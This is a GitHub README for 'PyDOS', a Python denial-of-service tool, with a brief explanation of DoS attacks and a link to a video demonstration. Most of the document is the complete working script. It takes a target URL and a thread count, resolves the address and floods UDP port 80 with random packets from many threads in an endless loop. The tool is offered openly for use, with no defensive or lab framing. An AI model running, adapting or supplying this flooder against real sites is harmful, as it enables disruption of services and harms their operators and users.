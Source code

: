 # PyDOS
<p>Implemetation Denial of services attack in python using socket, threading, time,...</p>
<p>

Author: [M-Taghizadeh](http://m-taghizadeh.ir)

See Video of this script in [YouTube](https://www.youtube.com/watch?v=37HzYZTISjE)
</p>


# What is DOS Attack?

![dos-img](docs/dos.jpg)

<p>
DOS or DDOS attack is one of the most common attacks on sites that makes the site inaccessible. This is done by sending a large number of requests to the site in a short time.
</p>

### Implemetation Denial of services attack (DOS) in python

![code-approach](docs/approach.png)

```python 
# DOS attack with python and socket, threading, time libraries

import time
import socket
import sys
import threading

def create_rnd_msg(msg_size):
	import random

	rnd_msg = ""
	for i in range(0, msg_size):
		ch_rnd = random.randint(0, 255)
		rnd_msg += chr(ch_rnd)
	return rnd_msg

print("\033[92mDenial of service attack..\033[00m\n:)\nAnonymous\n")
time.sleep(3)
site = input("Enter The Target URL: ")
thread_count = int(input("Enter the counts of threads: "))
ip = socket.gethostbyname(site)

UDP_PORT = 80
print("UDP target ip: ", ip)
print("UDP target port: ", UDP_PORT)
time.sleep(3)

def dos():
	while True:	
		MESSAGE = str.encode(create_rnd_msg(8))
		sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		sock.sendto(MESSAGE, (ip, UDP_PORT))
		print(f'Packet Sent Successfuly => Message: \033[94m {MESSAGE.decode()} "\033[00m :)')

for i in range(thread_count):
	try:
		threading.Thread(target=dos).start()

	except KeyboardInterrupt:
		sys.exit(0)
```